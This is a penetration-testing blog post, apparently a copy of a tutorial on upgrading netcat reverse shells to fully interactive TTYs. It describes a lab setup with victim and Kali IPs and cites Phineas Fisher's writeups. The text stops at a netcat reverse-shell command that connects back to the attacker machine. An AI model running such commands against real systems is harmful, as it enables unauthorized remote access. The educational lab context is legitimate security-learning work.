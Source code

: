 ```yaml
---
title: Upgrading TTY
category: To-Sort
pubDate: 2025-06-16
heroImage: ../../../assets/reverse_shell.png
---
```


Every pentester knows that amazing feeling when they catch a reverse shell with netcat and see that oh-so-satisfying verbose netcat message followed by output from `id`.

And if other pentesters are like me, they also know that dreadful feeling when their shell is lost because they run a bad command that hangs and accidentally hit “Ctrl-C” thinking it will stop it but it instead kills the entire connection.

[![Oops!](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)](https://blog.ropnop.com/images/2017/07/oops_ctrl_c.png)

Besides not correctly handling SIGINT, these"dumb” shells have other shortcomings as well:

- Some commands, like `su` and `ssh` require a proper terminal to run
- STDERR usually isn’t displayed
- Can’t properly use text editors like `vim`
- No tab-complete
- No up arrow history
- No job control
- Etc…

Long story short, while these shells are great to catch, I’d much rather operate in a fully interactive TTY.

I’ve come across some good resources that include very helpful tips and techniques for “upgrading” these shells, and wanted to compile and share in a post. Along with Pentest Monkey, I also learned the techniques from Phineas Fisher in his released videos and writeups of his illegal activities:

- [Pentest Monkey - Post Exploitation Without a TTY](http://pentestmonkey.net/blog/post-exploitation-without-a-tty)
- [Phineas Fisher Hacks Catalan Police Union Website](https://www.youtube.com/watch?v=oI_ZhFCS3AQ#t=25m53s)
- [Phineas Fisher - Hackingteam Writeup](http://pastebin.com/raw/0SNSvyjJ)

For reference, in all the screenshots and commands to follow, I am injecting commands in to a vulnerable web server (“VICTIM”) and catching shells from my Kali VM (“KALI”):

- **VICTIM IP**: 10.0.3.7
- **KALI IP**: 10.0.3.4

# Generating reverse shell commands

Everyone is pretty familiar with the traditional way of using netcat to get a reverse shell:

|                 |                                               |
| --------------- | --------------------------------------------- |
| ```<br>1<br>``` | ```bash<br>nc -e /bin/sh 10.0.3.4 4444<br>``` |

